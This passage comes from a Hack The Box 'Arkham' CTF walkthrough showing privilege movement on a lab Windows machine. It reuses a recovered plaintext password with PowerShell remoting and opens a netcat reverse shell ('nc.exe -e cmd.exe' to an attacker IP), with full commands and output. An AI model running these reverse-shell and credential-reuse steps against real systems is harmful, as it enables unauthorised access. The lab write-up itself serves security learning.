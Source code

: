 With Batman's credentials I should now be able to use Powershell to change users. One method is to use my existing shell to 'remote' into the localhost using Batman's Creds with the `Enter-PSSession` cmdlet.

```
C:\tomcat\apache-tomcat-8.5.37\bin>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\tomcat\apache-tomcat-8.5.37\bin> $Username = "Batman"
$Username = "Batman"
PS C:\tomcat\apache-tomcat-8.5.37\bin> $Password = 'Zx^#QZX+T!123'
$Password = 'Zx^#QZX+T!123'
PS C:\tomcat\apache-tomcat-8.5.37\bin> $SecurePass = ConvertTo-SecureString -AsPlainText -Force $Password
$SecurePass = ConvertTo-SecureString -AsPlainText -Force $Password
PS C:\tomcat\apache-tomcat-8.5.37\bin> $Creds = New-Object System.Management.Automation.PSCredential($Username,$SecurePass)
$Creds = New-Object System.Management.Automation.PSCredential($Username,$SecurePass)
PS C:\tomcat\apache-tomcat-8.5.37\bin> Enter-PSSession -Credential $Creds -ComputerName arkham   
Enter-PSSession -Credential $Creds -ComputerName arkham 
[arkham]: PS C:\Users\Batman\Documents> whoami
whoami
arkham\batman
```

Another way would be to use the `Invoke-Command` cmdlet to give myself another reverse shell as batman, once again using netcat

```
C:\tomcat\apache-tomcat-8.5.37\bin>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\tomcat\apache-tomcat-8.5.37\bin> $Username = "Batman"
$Username = "Batman"
PS C:\tomcat\apache-tomcat-8.5.37\bin> $Password = 'Zx^#QZX+T!123'
$Password = 'Zx^#QZX+T!123'
PS C:\tomcat\apache-tomcat-8.5.37\bin> $SecurePass = ConvertTo-SecureString -AsPlainText -Force $Password
$SecurePass = ConvertTo-SecureString -AsPlainText -Force $Password
PS C:\tomcat\apache-tomcat-8.5.37\bin> $Creds = New-Object System.Management.Automation.PSCredential($Username,$SecurePass)
$Creds = New-Object System.Management.Automation.PSCredential($Username,$SecurePass)
Invoke-Command -ComputerName arkham -Credential $Creds -ScriptBlock {C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.14.9 443}
```
```
root@kali:~/Desktop/hackthebox/Arkham-10.10.10.130# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.130] 49707
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
 
C:\Users\Batman\Documents>whoami
whoami
arkham\batman
 
C:\Users\Batman\Documents>
```
